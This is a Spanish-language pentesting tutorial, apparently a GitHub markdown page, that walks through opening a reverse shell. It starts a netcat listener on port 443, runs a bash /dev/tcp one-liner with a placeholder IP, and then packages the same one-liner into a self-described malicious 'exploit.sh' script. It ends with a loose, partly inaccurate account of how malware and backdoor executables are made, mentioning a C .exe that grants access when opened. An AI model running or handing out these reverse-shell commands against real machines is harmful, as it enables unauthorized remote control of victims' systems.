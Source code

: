 ```yaml
---
title: Pentesting
published: true
---
```




**Hola** hoy estaermos hablando de pentesting web, hablaremos sobre:
* **Creacion de ReverseShell comandos.**
* **Como estan compuestos los payloads exploits malware para windows.**
<br>

Vale primero que es una **ReverseShell**, lo explicara en un lenguaje brusco, una ReverShell es aquella que te permite
ejecutar comandos en una pc que no es tu dominio, es decir una ip el cual es la de la victima conectada a un hosts,
donde el hosts es tu equipo y te permite ejecucion remota de comandos.

[Puedes encontrar mas informacion aqui](https://www.google.com/search?q=ReverseShell&client=firefox-b-d&sxsrf=ALiCzsbKFcBidTADzj_JE7x-ksfIvwVUpA%3A1658946186694&ei=ioLhYpz9KeezqtsPnd-L8A0&ved=0ahUKEwic6qKR2Jn5AhXnmWoFHZ3vAt4Q4dUDCA0&uact=5&oq=ReverseShell&gs_lcp=Cgdnd3Mtd2l6EAMyBwgjELECECcyBwgjELECECcyBwgjELECECcyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEMyBAgAEEM6BwgAEEcQsAM6BAguECc6BAgjECc6CwgAEIAEELEDEIMBOgcIIxDqAhAnOggIABCxAxCDAToFCAAQgAQ6BAgAEAM6BggjECcQEzoKCAAQsQMQgwEQQzoKCC4QsQMQgwEQQzoGCAAQChBDOggIABCABBCxAzoICC4QgAQQsQM6BwgAEIAEEAo6BwgAEAoQywE6BQgAEMsBSgQIQRgASgQIRhgAUM4EWPkxYJkzaAhwAXgBgAHzAYgBrBqSAQYwLjE0LjSYAQCgAQGwAQrIAQjAAQE&sclient=gws-wiz).

-------
<br>

<h3><font color="lime">[*]</font> Empezaremos con las pruebas de ReverseShell:</h3>
los programas a utilizar para la ReverseShell es bash, netcat, si usas linux es probable que ya los tengas instalados, 
en el caso contrario ejecuta:
<br>

para linux:

 `sudo apt-get install netcat bash`

para arch-linux:

`pacman -Sy netcat bash`

<br>
<br>

<h3>IMPORTANTE</h3> <ph><font color="green">[*]</font> Para estas bruebas si lo vas a hacer desde terminal, tienes que utilizar bash y no zsh por que te dara
errores, claro si quieres puedes probar de zsh y conocer los errores pero si quieres omitir esto, entonces solo ejecutas
el siguiente comando:</ph>

`bash`


<img src="screenshots/screen_bash.jpg">

<ph><font color="lime">[↑]</font> Como puede ver ya no estoy en la zsh entonces vamos a operar desde la terminal y luego operaremos de un script mailicioso.</ph>
<br>

---
<br>
<ph><font color="lime">[*]</font> Empezamos poniendonos en escucha por el puerto 443 de netcat : </ph>

`nc -nvlp 443`

<ph><font color="lime">[*]</font> Miramos que ip tenemos con el comando ifconfig :</ph>

`ifconfig`

<img src="screenshots/ifconfig.jpg">

<ph><font color="lime">[↑]</font> Como pueden ver tengo la ip 127.0.0.1</ph>
<br>
<ph><font color="lime">[*]</font> Ahora estando en escucha con netcat "nc -nlvp 443" en el puerto 443, vamos a entablarnos la coneccion desde otra
terminal por que la primera esta siendo ocupada por netcat entonces recuerden ejecutar el comando <b>bash</b> antes de entablar
la coneccion.</ph>

<br>

<ph><font color="lime">[*]</font> Para entablar la coneccion hacemos el siguiente comando :</ph>
<br>

`bash  	   `

`bash -i >& /dev/tcp/TU-IP/443/ 0>&1`


<img src='screenshots/reverse.jpg'>

<ph><font color="lime">[↑]</font> Como pueden ver se me abrio un <b>ReverseShell</b> en la parte donde estaba en escucha con netcat.</ph>

-------
<br>

<ph><font color="lime">[*]</font> Ahora pasaremos a desarrollar un <b>script malicioso en bash</b>, para ello aremos los mismo solo que esta ves el comando : 
`bash -i >& /dev/tcp/127.0.0.1/443 0>&1` ira dentro de un script sh para ello:</ph>

<br>

```
touch exploit.sh && echo -e "bash -i &>/dev/tcp/$(cat /etc/hosts  | grep localhost | awk "NR==1" | cut -d " " -f "1-1")/443 0>&1" >> exploit.sh && chmod +x ./exploit.sh
```

<br>

<ph><font color="lime">[*]</font> Lo que desarrolle con ese comando fue hacer un script en bash para poder entablarme una coneccion pueden hacer <b>ls</b> y veran un
 archivo llamado <b>exploit.sh</b> y de paso otorgarle permiso de ejecucion.</ph>

No se ofusque si no entiende la anterior  linea de codigo simplemente lo que hace es hacer un archivo con `touch` darle permisos
con de ejecucion `chmod +x exploit.sh` y meterle adentro con `>>` el codigo :

```#!/bin/bash
   bash -i >& /dev/tcp/127.0.0.1 0>&1
```
<br>
<ph><font color="lime">[*]</font> Pueden hacerlo manualmente con los siquientes comandos :</ph>

`touch exploit.sh`
`chmod +x exploit.sh`
Abren el archivo creado y colocan la `bash -i >& /dev/tcp/SU-IP/443 0>&1`

<br>

<ph><font color="lime">[*]</font> Una vez ya echo el archivo, pongace en escucha por el puerto 443 con netcat. Recuerde
que con el comando <b>nc -nlvp 443</b> nos poniamos en escucha por el puerto 443 este puerto puede ser modificado siempre
y cuando el puerto no este en uso, y claramente en el exploit o codigo ponga su respectivo puerto.ﾠ</ph>

ﾠ
<ph><font color="lime">[*]</font> Nos ponemos en escucha con netcat</ph>
`nc -nlvp 443`

<ph><font color="lime">[*]</font> Y ejecutamos el archivo creado</ph>
`./exploit.sh`

<img src="screenshots/final.jpg">

<ph><font color="lime">[*]</font><b> Ahora como puden ver tengo una reverse shell</b></ph>

<br>

<ph><font color="lime">[*]</font> Lo mas comodo de hacerlo por script es que se puden ejecutar el archivo teniendo la zsh y ahorrandose el comando `bash` y
 ejecutar el archivo este se debe a la extension <b>"sh"</b> que tiene el archivo.</ph>
<br>
<ph>Vale ya sabes al menos cosas basicas de como entablarte un reverse shell luego voy a hacer que entiendas como
ganar acceso a un sistema.<b>http,https.</b></ph>


---

<h3>¿Como estan desarollados los backdoor, exploits, payloads y malware?</h3>
<ph>Te lo voy a explicar en un lenguaje brusco es decir a mi manera para que puedas entenderlo mas facil.<ph>
<ph>Un archivo malicioso ya puede ser malware exploit backdoor (Puerta tracera) payloads, no son mas que archivos en
binario que si recuerdas es lenguaje de la computadora que usa para poder operar. estos archivos puden ser
tambien escritos en hexadecimal para poder luego con un compilador pasarlo a binario.
para esto existen compiladores que te ayudan a crear este tipo de archivo el ultimo
exe que hice fue un archivo escrito en <b>C</b> ganabas acceso al sistema con solo abrirlo, pero este no es el caso de hablar de esto.
si quieres aprender a desarrollar un .exe debes aprender lenguaje c y con ayuda de una herramienta poder compilarlos
yo utilizaba code block, asi y poder luego crearte archivos .exe a tu favor.</ph>

